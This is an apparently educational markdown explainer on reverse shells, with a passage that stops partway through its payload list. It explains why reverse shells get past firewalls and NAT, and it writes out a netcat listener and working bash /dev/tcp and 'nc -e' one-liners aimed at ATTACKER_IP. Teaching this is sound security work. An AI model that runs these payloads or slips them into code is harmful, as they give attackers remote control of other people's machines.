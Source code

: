 - **Normal (bind) shell** : Attacker connects _into_ the target.
- **Reverse shell** : Target connects _out_ to the attacker.

**Why “reverse”?**

Because the connection direction is flipped — instead of the attacker initiating the connection, the target does.

---

## 2️⃣ Why Reverse Shells Exist

They solve two big problems in real-world networks:

1. **Inbound connections are often blocked** by firewalls/NAT.
2. **Outbound connections are often allowed** (HTTP, HTTPS, DNS, etc.).

By making the target initiate the connection, you:

- Bypass inbound firewall rules.
- Work even if the target is behind NAT.
- Blend in with normal outbound traffic.

---

## 3️⃣ How a Reverse Shell Works — Step-by-Step

**Example flow:**

1. **Attacker sets up a listener** (waiting for incoming connections):
   ```bash
   nc -lvnp 4444
   ```
2. **Attacker delivers a payload** to the target (via command injection, RCE, phishing, etc.) that tells it to connect back:
   ```bash
   bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
   ```
3. **Target connects back** to the attacker’s IP and port.
4. **Shell session established** — attacker can now run commands remotely.

---

## 4️⃣ Common Reverse Shell Payloads

**Bash**

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

**Netcat (with `-e` support)**

```bash
nc -e /bin/sh ATTACKER_IP 4444
```
